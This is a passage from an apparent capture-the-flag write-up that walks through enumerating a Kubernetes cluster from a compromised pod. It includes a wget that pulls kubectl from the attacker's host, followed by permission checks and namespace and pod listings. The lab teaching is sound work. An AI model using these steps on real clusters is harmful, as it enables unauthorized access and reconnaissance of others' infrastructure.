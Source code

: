 As the initial Nmap scan showed, this is a **Kubernetes** cluster and the [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux) command line tool is needed to interact with the Kubernetes infrastructure.

Downloading `kubectl` to the pod and making it executable:
```
wget 10.10.14.3:8000/kubectl

chmod +x kubectl
```

Checking permissions for resources:
```
./kubectl auth can-i --list
```
```
Resources         Non-Resource URLs     Resource Names    Verbs
namespaces        []                    []                [get list]
```

Listing all namespaces:
```
./kubectl get namespaces
```
```
NAME              STATUS
default           Active
kube-system       Active
kube-public       Active
kube-node-lease   Active
dev               Active
```

Checking permissions for the namespace _dev_:
```
./kubectl auth can-i --list -n dev
```
```
Resources         Non-Resource URLs     Resource Names    Verbs
namespaces        []                    []                [get list]
pods              []                    []                [get list]
```

Listing all pods of _dev_:
```
./kubectl get pods -n dev
```
```
NAME                                  READY   STATUS        RESTARTS
devnode-deployment-776dbcf7d6-hzwt6   1/1     Running       2 (3h27m ago)
devnode-deployment-776dbcf7d6-7dxk5   1/1     Running       2 (3h27m ago)
devnode-deployment-776dbcf7d6-ld62v   1/1     Running       2 (3h27m ago)
```

Enumerating information out of all pods:
```
./kubectl describe pod devnode-deployment-776dbcf7d6-hzwt6 -n dev
./kubectl describe pod devnode-deployment-776dbcf7d6-7dxk5 -n dev
./kubectl describe pod devnode-deployment-776dbcf7d6-ld62v -n dev
```
